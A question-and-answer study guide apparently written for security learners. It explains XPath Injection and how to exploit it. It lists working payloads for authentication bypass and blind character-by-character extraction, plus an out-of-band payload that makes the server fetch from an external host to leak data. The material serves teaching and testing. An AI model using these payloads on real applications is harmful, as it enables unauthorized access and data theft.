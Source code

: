 ### 1. What is XPath Injection and how does it pose a security threat to web applications?

**Answer**: XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents. When user input is not properly sanitized, an attacker can manipulate the XPath query to access unauthorized data, similar to SQL Injection in databases. This can lead to unauthorized access, data leakage, and potentially full control over the application.

---

### 2. Describe the methodology for exploiting XPath Injection vulnerabilities.

**Answer**: The methodology for exploiting XPath Injection vulnerabilities involves:
1. **Identifying Input Fields**: Locate input fields that may be used in XPath queries.
2. **Injecting Malicious Payloads**: Inject payloads to terminate the query and manipulate it. For example:
   ```xml
   ' or '1'='1
   ' or ''='
   x' or 1=1 or 'x'='y
   ```
3. **Blind Exploitation**: Use techniques to infer data based on the application's response. For example, checking string lengths or specific characters:
   ```xml
   and string-length(account)=SIZE_INT
   substring(//user[userid=5]/username,2,1)=CHAR_HERE
   substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
   ```
4. **Out Of Band Exploitation**: Send data to an external server to retrieve it. For example:
   ```xml
   http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
   ```

---

### 3. How can you terminate and manipulate an XPath query for exploitation?

**Answer**: Similar to SQL Injection, you can use payloads to terminate the existing query and append new conditions. Some common payloads include:
   ```xml
   ' or '1'='1
   ' or ''='
   x' or 1=1 or 'x'='y
   ' and count(/*)=1 and '1'='1
   ' and count(/@*)=1 and '1'='1
   ' and count(/comment())=1 and '1'='1
   ```
These payloads manipulate the XPath query to bypass authentication or access unauthorized data.

---
